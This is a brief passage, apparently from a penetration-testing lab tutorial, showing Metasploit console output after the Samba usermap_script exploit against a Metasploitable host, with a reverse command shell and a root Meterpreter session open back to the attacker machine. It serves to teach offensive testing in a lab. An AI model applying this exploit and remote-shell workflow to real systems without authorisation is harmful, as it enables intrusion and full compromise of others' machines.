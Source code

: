 ## By running the sessions command again, we can see that we now have two sessions:
```python
msf6 exploit(multi/samba/usermap_script) > sessions

Active sessions
===============

  Id  Name  Type                   Information                        Connection
  --  ----  ----                   -----------                        ----------
  3         shell cmd/unix                                            192.168.216.9:4444 -> 192.168.216.4:40606 (192.168.216.4)
  4         meterpreter x86/linux  root @ metasploitable.localdomain  192.168.216.9:4433 -> 192.168.216.4:37059 (192.168.216.4)
```

